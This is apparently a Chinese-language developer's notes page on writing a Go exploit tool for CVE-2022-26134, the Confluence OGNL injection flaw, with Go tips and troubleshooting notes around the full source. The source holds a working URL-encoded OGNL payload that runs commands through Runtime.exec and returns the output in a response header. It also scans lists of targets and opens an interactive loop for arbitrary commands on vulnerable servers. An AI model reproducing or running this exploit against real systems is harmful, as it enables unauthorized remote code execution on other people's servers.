




TreeviewCopyright © wjlin0 all right reserved, powered by aleen42
1. CVE-2022-26134
[!Note]
1.1. 知识点
1.1.1. flag包使用
设置参数遍历
flag.StringVar(&proxy, "proxy", "", "代理")
flag.StringVar(&target, "url", "", "目标")
flag.StringVar(&listUrl, "list", "", "目标列表")
1.1.2. 文件读写
if listUrl != "" {
fmt.Println("正在打开文件")
filePath := listUrl
file, err := os.Open(filePath)
if err != nil {
fmt.Println("文件打开失败", err)
}
defer file.Close()
//读原来文件的内容，并且显示在终端
reader := bufio.NewScanner(file)
for {
if !reader.Scan() {
break
}
target := reader.Text()
target = strings.TrimSpace(target)
targets = append(targets, urlHandler(target))
}
1.1.3. 字符串替换
if !strings.HasPrefix(target, "http") {
target = "http://" + target
}
// 有/结尾的就去掉/
if strings.HasSuffix(target, "/") { // 去掉后缀 /
target = strings.TrimSuffix(target, "/")
//fmt.Println(target)
}
1.1.4. 设置请求代理
if proxy != "" {
url_i := url.URL{}
urlProxy, error := url_i.Parse(proxy)
if error != nil {
fmt.Println(error.Error())
return
}
transport = &http.Transport{Proxy: http.ProxyURL(urlProxy)}
fmt.Println("设置代理: ", proxy, " 成功")
}
1.1.5. 用户读入
利用bufio解决 Scanf、Scan、Scanln不读入空格的问题
fmt.Print("\n输入命令：")
reader := bufio.NewReader(os.Stdin)
com, _, _ := reader.ReadLine()
if string(com) != "" {
break
}
1.1.6. 交叉编译
windows编译
[!Tip]
windows下编译三种系统
set CGO_ENABLED=0
set GOARCH=amd64
set GOOS=windows
go build -ldflags="-s -w" -trimpath -o release/CVE-2022-26134_windows.exe
set CGO_ENABLED=0
set GOARCH=amd64
set GOOS=linux
go build -ldflags="-s -w" -trimpath -o release/CVE-2022-26134_linux
set CGO_ENABLED=0
set GOARCH=amd64
set GOOS=darwin
go build -ldflags="-s -w" -trimpath -o release/CVE-2022-26134_darwin
linux 编译
[!Tip]
linux 下编译三种系统
CGO_ENABLED=0 GOOS=darwin GOARCH=amd64 go build -ldflags="-s -w" -trimpath -o release/CVE-2022-26134_darwin
CGO_ENABLED=0 GOOS=windows GOARCH=amd64 go build -ldflags="-s -w" -trimpath -o release/CVE-2022-26134_windows.exe
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build -ldflags="-s -w" -trimpath -o release/CVE-2022-26134_linux
Mac编译
[!Tip]
Mac下编译三种系统
CGO_ENABLED=0 GOOS=darwin GOARCH=amd64 go build -ldflags="-s -w" -trimpath -o release/CVE-2022-26134_darwin
CGO_ENABLED=0 GOOS=windows GOARCH=amd64 go build -ldflags="-s -w" -trimpath -o release/CVE-2022-26134_windows.exe
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build -ldflags="-s -w" -trimpath -o release/CVE-2022-26134_linux
1.2. 代码
package main
import (
"bufio"
"bytes"
"flag"
"fmt"
"io"
"net/http"
"net/url"
"os"
"strings"
)
var target string
var targets []string
var listUrl string
var proxy string
var transport = &http.Transport{}
func Init() {
flag.StringVar(&proxy, "proxy", "", "代理")
flag.StringVar(&target, "url", "", "目标")
flag.StringVar(&listUrl, "list", "", "目标列表")
}
func Banner() {
fmt.Println(`
__.__ .__ _______
__ _ __ |__| | |__| ____ \ _ \
\ \/ \/ / | | | | |/ \/ /_\ \
\ / | | |_| | | \ \_/ \
\/\_/\__| |____/__|___| /\_____ /
\______| \/ \/
CVE-2022-26134`)
}
func urlHandler(target string) string {
if !strings.HasPrefix(target, "http") {
target = "http://" + target
}
// 有/结尾的就去掉/
if strings.HasSuffix(target, "/") { // 去掉后缀 /
target = strings.TrimSuffix(target, "/")
//fmt.Println(target)
}
return target
}
func checkProxy() {
if proxy != "" {
url_i := url.URL{}
urlProxy, error := url_i.Parse(proxy)
if error != nil {
fmt.Println(error.Error())
return
}
transport = &http.Transport{Proxy: http.ProxyURL(urlProxy)}
fmt.Println("设置代理: ", proxy, " 成功")
}
}
func checkArgs() {
if target != "" {
targets = append(targets, urlHandler(target))
}
if listUrl != "" {
filePath := listUrl
file, err := os.OpenFile(filePath, os.O_WRONLY|os.O_CREATE, 066)
if err != nil {
fmt.Println("文件打开失败", err)
}
defer file.Close()
//读原来文件的内容，并且显示在终端
reader := bufio.NewReader(file)
for {
target, err := reader.ReadString('\n')
if err == io.EOF {
break
}
targets = append(targets, urlHandler(target))
}
}
if targets == nil {
//flag.Usage()
os.Exit(0)
}
}
func check(t string) (b bool) {
b = false
vulurl := t + "/%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22whoami%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/"
req, er := http.NewRequest("GET", vulurl, bytes.NewReader([]byte{}))
if er != nil {
fmt.Println(er)
fmt.Println("请求失败")
return
}
req.Header.Set("User-Agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:71.0) Gecko/20100101 Firefox/71.0")
client := http.Client{Transport: transport, CheckRedirect: func(req *http.Request, via []*http.Request) error { return http.ErrUseLastResponse }}
resp, er := client.Do(req)
if er != nil {
return
}
status := resp.StatusCode
header := resp.Header.Get("X-Cmd-Response")
if header == "" && status == 302 {
b = false
fmt.Println("目标：", t, "不存在漏洞")
} else {
b = true
fmt.Println("目标：", t, "存在漏洞")
}
return
}
func exp(t string, comm string) {
vulurl := t + `/%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22` + comm + `%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/`
req, er := http.NewRequest("GET", vulurl, bytes.NewReader([]byte{}))
if er != nil {
fmt.Println(er)
fmt.Println("请求失败")
return
}
client := http.Client{Transport: transport, CheckRedirect: func(req *http.Request, via []*http.Request) error { return http.ErrUseLastResponse }}
resp, _ := client.Do(req)
res := resp.Header.Get("X-Cmd-Response")
res = strings.TrimSpace(res)
fmt.Print("\n执行结果：\n")
fmt.Printf("%v", res)
}
func main() {
fmt.Println(os.Args)
Banner()
Init()
flag.Parse()
checkArgs()
checkProxy()
var successTargets []string
for _, t := range targets {
b := check(t)
if b {
successTargets = append(successTargets, t)
}
}
if successTargets != nil {
var i int
var t string
var comm string
fmt.Println("选择目标：")
for i, tar := range successTargets {
fmt.Println("目标：", tar, " , ", i)
}
if len(successTargets) == 1 {
t = successTargets[0]
} else {
_, err := fmt.Scanln(&i)
if err != nil {
t = successTargets[0]
}
}
t = successTargets[i]
for {
fmt.Print("\n输入命令：")
reader := bufio.NewReader(os.Stdin)
com, _, _ := reader.ReadLine()
if string(com) == "" {
break
}
comm = strings.Replace(string(com), " ", "%20", -1)
exp(t, comm)
}
} else {
fmt.Println("没有目标存在漏洞")
}
}
1.3. 遇到的问题
1.3.1. go get 遇到的问题
[!DANGER]
go get 时 可以直接使用
go get -u -v github.com/wjlin0/CVE-2022-26134就可将二进制文件拉去至$GOPATH/bin/目录下如果设置了全局变量就可直接使用，而不需要go mod init github.com/wjlin0/CVE-2022-26134之后再go get -u -v github.com/wjlin0/CVE-2022-26134因为他不是一个软件包如下图

1.3.2. bufio.NewReader.ReadString
[!DANGER]
默认情况下，文件若最后一排没有
\n则reader.ReadString('\n')会产生一个错误，那么最后一排的数据也正是我们需要的，所以也要再次做一个判断添加
reader := bufio.NewReader(file)
for {
target, err := reader.ReadString('\n')
if err != nil {
if err == io.EOF {
if target != "" {
targets = append(targets, urlHandler(target))
}
break
}
}
//fmt.Printf("%#v\n", target)
target = strings.TrimSpace(target)
//fmt.Printf("%#v\n", target)
targets = append(targets, urlHandler(target))
}

[!DANGER]
在读入时
ReadString('\n')，会将 \n 一块读入，需要用户自行处理\r\n或者\n

1.3.3. go 代理缓存拉取不到最新版本
[!DANGER]
使用了代理，我的GOPROXY设置为
https://goproxy.cn,direct了，大概率是这个代理自己有缓存，所以我无法获取到更新之后的模块A。
解决方法就是更改GOPROXY的设置
go env -w GOPROXY=https://goproxy.io,direct
1.4. 运行实例图
